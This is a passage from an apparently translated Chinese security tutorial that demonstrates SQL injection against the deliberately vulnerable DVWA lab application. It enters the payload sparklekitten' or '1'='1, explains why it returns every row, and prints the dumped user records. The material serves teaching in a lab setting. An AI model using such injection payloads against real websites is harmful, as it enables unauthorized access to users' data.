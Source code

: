 图 7-8：为 DVWA 创建数据库

现在您已经完成了 DVWA 的设置，我们可以进行一些 SQL 注入实验了。

### 列出用户

安装完成后，页面左侧应自动列出各种攻击。点击**SQL 注入**，进入一个包含用户 ID 字段和提交按钮的页面，如图 7-9 所示。

![f07009](img/f07009.png)

图 7-9：SQL 注入字段

为了开始注入，让我们尝试一个简单的操作。请输入**1**在字段中并按回车键。此时应弹出一个红色错误文本，显示以下内容：

```
ID: 1
First name: admin
Surname: admin
```

这个错误已经表明应用程序存在漏洞：它没有显示*用户未找到*或类似的消息，而是显示了 ID 为*1*的用户的名字和姓氏。让我们看看能否找到更多用户。输入以下内容到用户 ID 字段并按 ENTER 键：

```
**sparklekitten' or '1'='1**
```

让我们来分解这个输入。SQL 语言将每个查询评估为真或假。`or` 运算符会在其分隔的条件之一为真时显示记录。因为 `sparklekitten` 不会出现在用户 ID 字段中，这个条件将为假，但因为 1 永远等于 1，这个条件将为真。按照 SQL 的逻辑，这个输入实际上会返回数据库中所有的用户 ID 记录，因为 1=1 为真，而 `or` 运算符指的是任一条件；SQL 查询认为每个条目都符合查询要求，结果会返回每个用户名。输入这个内容后，你应该会看到如下输出：

```
ID: sparklekitten' or '1'='1
First name: admin
Surname: admin
ID: sparklekitten' or '1'='1
First name: Gordon
Surname: Brown
ID: sparklekitten' or '1'='1
First name: HackSurname: Me
ID: sparklekitten' or '1'='1
First name: Pablo
Surname: Picasso
ID: sparklekitten' or '1'='1
First name: Bob
Surname: Smith
```
